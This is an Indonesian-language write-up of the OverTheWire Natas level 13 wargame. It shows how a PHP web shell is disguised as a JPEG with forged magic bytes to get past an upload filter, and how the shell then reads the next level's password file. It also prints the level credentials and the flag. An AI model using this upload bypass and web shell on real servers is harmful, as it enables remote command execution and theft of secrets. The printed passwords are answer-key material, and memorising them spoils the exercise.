 ```yaml
---
layout: default
level: 13
name_file: level
---
```


{% include level-section.html %}

# soal
Username: natas13 \
URL:      http://natas13.natas.labs.overthewire.org

# solve
- login with cred natas13:trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC
- di soal kali ini kita harus memaasukan file jenis jpg jika tidak itu akan ditolak jadi saya mencoba dengan jpg dibawah 1k byte, 
  dan php terlebih dahulu
  ![alt text](docs/images/image-29.png)
  ![alt text](docs/images/image-28.png)
- saya mencoba melakukan bypass dengan mengubah hexeditor
  ```bash
  cp simple.php simple-bypass.php
  file simple-bypass.php 
  # simple-bypass.php: PHP script, ASCII text
  file 680b.jpg 
  # 680b.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 300x300, segment length 16, baseline, precision 8, 10x10, components 3

  xxd 680b.jpg 
  00000000: ffd8 ffe0 0010 4a46 4946 0001 0101 012c  ......JFIF.....,

  ## kita akan mengambil header byte dari jpeg ini ke php
  ## kita perlu menambahkan beberapa teks untuk mempermudah mengubahnya

  cat simple-bypass.php 
  ##########
  <?php echo system($_GET['c']); ?>

  hexeditor simple-bypass.php
  ```
- dan kita edit hex nya samakan dengan hex header jpeg
  ![alt text](docs/images/image-30.png)
- menjadi seperti ini
  ![alt text](docs/images/image-31.png)
- dan simpan dengan ctrl x
- jika sudah kita bisa coba untuk cek lagi apakah filenya sudah benar
  ```
  file simple-bypass.php 
  simple-bypass.php: JPEG image data, JFIF standard 60.63, density 26736x8293, segment length 16, thumbnail 99x104
  ```

## uplooad the file
- lalu saya mencooba mengupload filenya dan menintercept di brute dan mengubah lagi namanya
  ![alt text](docs/images/image-32.png)
  ![alt text](docs/images/image-33.png)
  ![alt text](docs/images/image-34.png)
  - ```?c=cat /etc/natas_webpass/natas14```

# flag
z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ